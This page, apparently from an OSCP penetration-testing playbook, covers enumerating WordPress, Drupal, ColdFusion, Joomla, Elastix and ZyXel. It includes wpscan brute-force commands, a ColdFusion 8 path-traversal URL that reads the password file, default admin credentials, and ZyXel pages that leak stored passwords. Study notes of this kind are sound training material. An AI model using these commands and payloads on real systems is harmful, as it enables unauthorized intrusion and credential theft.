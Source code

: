 # CMS

- Enumerate version and few other details
    - If don't found the version, download the source code and grep the version. We might found the page that contains the version then.
- Google their vulnerability
- Default password login page
- Guessing password login page?
    

## Wordpress[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#wordpress)

### Wpscan[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#wpscan)
```
wpscan --url $ip/wp/
```

Bruteforce login page
```
wpscan --url <ip> --username <nama> --wordlist <path to list>
```

Random agent
```
wpscan --url http://cybear32c.lab/ --random-agent
```
### Zoom.py - enumerate wordpress users[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#zoom.py-enumerate-wordpress-users)
```
python zoom.py -u <wordpress site>
```
### admin page[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#admin-page)
```
/wp-admin
/wp-login
```
### Configuration files[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#configuration-files)
```
setup-config.php
wp-config.php
```
### Enumerate users[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#enumerate-users)
```
/?author=1, /?author=2,
```
## Drupal[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#drupal)

### Droopescan[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#droopescan)
```
droopescan scan drupal -u http://example.org/ -t 32
```

### Find version[](https://fareedfauzi.gitbook.io/oscp-playbook/services-enumeration/http-s/cms#find-version)
```
/CHANGELOG.txt
```
## Adobe Cold Fusion[](#adobe-cold-fusion)

### Determine version[](#determine-version)
```
/CFIDE/adminapi/base.cfc?wsdl
```


### Version 8 Vulnerability[](#version-8-vulnerability)

- fckeditor
- LFI
	```
	`http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`
	```
## Elastix[](#elastix)

- Google the vulnerabitlities
- default login are `admin:admin` at `/vtigercrm/`
- able to upload shell in profile-photo
## Joomla[](#joomla)
- Admin page - `/administrator`
- Configuration files
```
    configuration.php
    
    diagnostics.php
    
    joomla.inc.php
    
    config.inc.php
```   
## Mambo[](#mambo)

#### Config files[](#config-files)
```
configuration.php
config.inc.php
```
## ZyXel[](#zyxel)

Configuration files
```
/WAN.html (contains PPPoE ISP password)
/WLAN_General.html and /WLAN.html (contains WEP key)
/rpDyDNS.html (contains DDNS credentials)
/Firewall_DefPolicy.html (Firewall)
/CF_Keyword.html (Content Filter)
/RemMagWWW.html (Remote MGMT)
/rpSysAdmin.html (System)
/LAN_IP.html (LAN)
/NAT_General.html (NAT)
/ViewLog.html (Logs)
/rpFWUpload.html (Tools)
/DiagGeneral.html (Diagnostic)
/RemMagSNMP.html (SNMP Passwords)
/LAN_ClientList.html (Current DHCP Leases)
```

# Config Backups
```
/RestoreCfg.html
/BackupCfg.html
```

